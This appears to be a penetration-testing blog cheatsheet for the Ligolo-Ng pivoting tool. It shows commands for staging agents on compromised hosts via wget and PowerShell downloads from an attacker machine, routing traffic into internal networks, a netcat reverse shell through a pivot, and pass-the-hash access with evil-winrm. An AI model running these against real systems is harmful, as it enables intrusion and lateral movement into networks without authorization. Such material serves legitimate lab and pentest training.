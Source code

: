 ```yaml
---
layout: post
title:  Ligolo-Ng Cheatsheet
description: Cheatsheet for Ligolo-Ng
date:   2024-10-31 09:00:00 +0300
image:  '/images/21.jpg'
tags:   [Cheatsheets, Tools, Pivoting]
---
```

# Getting Ligolo-Ng
Important Note: Make sure you are always using the same version of Proxy and Agent (For example, both Proxy and Agent must be 0.7.2).

## Download the binaries manually (Recommended)
### PROXY (Run this on Kali)
- [Linux 64-bits Proxy](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_proxy_0.7.2-alpha_linux_amd64.tar.gz)
- [Windows 64-bits Proxy](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_proxy_0.7.2-alpha_windows_amd64.zip)

### AGENT (Run this on Pivot Host)
- [Linux 64-bits Agent](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_agent_0.7.2-alpha_linux_amd64.tar.gz)
- [Windows 64-bits Agent](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_agent_0.7.2-alpha_windows_amd64.zip)

For more information about Ligolo-Ng, visit its official [GitHub Repository](https://github.com/nicocha30/ligolo-ng).

# Alternative with Package Installer
```shell
sudo apt install ligolo-ng

# Locate, copy the needed files and run them (Example with agent file)
sudo updatedb -v
locate agent
sudo cp /path/to/ligolo/agent .
sudo chmod +x agent
./agent
```

# Basic Pivot
Move the agent file into the pivot host:
```shell
# On Kali
sudo cp /home/kali/Downloads/ligolo-ng_agent_0.7.2_linux_amd64/agent .
python3 -m http.server 443

# On Target (Linux)
cd /tmp
wget http://<kali_ip>:443/agent

# On Target (Windows using PowerShell)
cd C:\Windows\Temp
powershell -c iwr http://<kali_ip>:443/agent.exe -OutFile agent.exe
```
Set up Ligolo-Ng on Kali:
```shell
# Create an interface
sudo ip tuntap add user Vorkharium mode tun ligolo
sudo ip link set ligolo up

# Add new IP range we want to access (Examine Pivot Host with ifconfig, ip a, etc commands)
sudo ip route add 172.16.150.0/24 dev ligolo
ip route list

# Run the proxy file
sudo chmod +x proxy
./proxy -selfcert

# The Ligolo-Ng console will now open (We will interact with it soon)
```

On the Pivot target, use the agent file to connect to our running proxy:
```shell
# On Linux
chmod +x agent
./agent --connect <kali_ip>:11601 -ignore-cert

# On Windows PowerShell
./agent.exe --connect <kali_ip>:11601 -ignore-cert

```

Now enter the following on the Ligolo-Ng console:
```shell
# Enter "session" to show the available sessions
ligolo-ng » session

# Enter "1" to select the session we created when using the agent (There is only one session to choose in this case)
? Specify a session : 1

# Enter "start" to start the connection
[Agent : hackme@compromisedmachine] » start

# Now we are able to access the network 172.16.150.0/24
```

## File Transfer Example with Single Pivot
In this example:
- We got access into the Host B 172.16.150.20 (We are inside its CLI).
- We previously set up our Pivot Host A, in this case 172.16.150.10.
- Now we want to move a file from Kali (192.168.45.200) to Host B (172.16.150.20) through our Pivot Host A (172.16.150.10).

To achieve that, we will create a new listener in our active Ligolo-Ng session:
```shell
# Create new listener - Port 1234 on Kali will be the Port 9001 on the Pivot Host A
# Enter the following on the running active Kali Ligolo-Ng session
listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:9001

# Start Python server on Kali using Port 1234
python3 -m http.server 1234

# From the Host B CLI, access Python server through Port 9003 at the Pivot Host
wget http://172.16.150.10:9001/test.txt
```

## Reverse Shell Example with Single Pivot
Following the example above, we will create a new listener, but this time we will use that listener to get a Reverse Shell:
```shell
# Create new listener - Port 1235 on Kali will be the Port 9002 on the Pivot Host A
# Enter the following on the running active Kali Ligolo-Ng session
listener_add --addr 0.0.0.0:1235 --to 0.0.0.0:9002

# Start nc listener on Kali Port 1235
nc -lvnp 1235

# Enter the following at Linux CLI on Host B to access the nc listener through Pivot Host A Port 9002
nc 172.16.150.10 9002 -e /bin/sh

# Now we successfully got a shell from the Host B (172.16.50.20) to our Kali
```

## Easy Double Pivot to Access a Second Internal Network
The following situation is given:
- We got access to the first internal network (172.16.150.0/24) through Administrator access at Pivot Host A (172.16.150.10).
- The Host B as access to another internal network (172.16.200.0/24).
- We will set a Second Pivot at Host B (172.16.150.20) to access the second internal network (172.16.200.0/24).

To achieve that, we can do the following:
```shell
# Connect with evil-winrm
evil-winrm -i 172.16.150.10 -u Administrator -H <NT_hash>

# Upload ligolo-ng agent.exe
upload agent.exe

# Set up a new ligolo interface on Kali
sudo ip tuntap add user Vorkharium mode tun ligolo2
sudo ip link set ligolo2 up

# Add the second internal network
sudo ip route add 172.16.200.0/24 dev ligolo2

# On the Ligolo-Ng current session, create a new listener connecting to the Port 11601 of the first session
listener_add --addr 0.0.0.0:11601 --to 0.0.0.0:11601

# Run the agent.exe to create a connection from the Second Pivot Host to the First Pivot Host
./agent.exe --connect 172.16.150.10:11601 -ignore-cert

# On Ligolo-Ng console - Show sessions
ligolo-ng » session

# Select the new session created from the Second Pivot Host
? Specify a session : 2 # automotors\Administrator@DC01 (Example of the name of the second pivot host)

# Start new Ligolo-Ng session using the new interface "ligolo2" so it won't interfere with the first interface "ligolo"
[Agent : automotors\Administrator@DC01] » start --tun ligolo2

# Now we can access the second internal network 172.16.200.0/24
```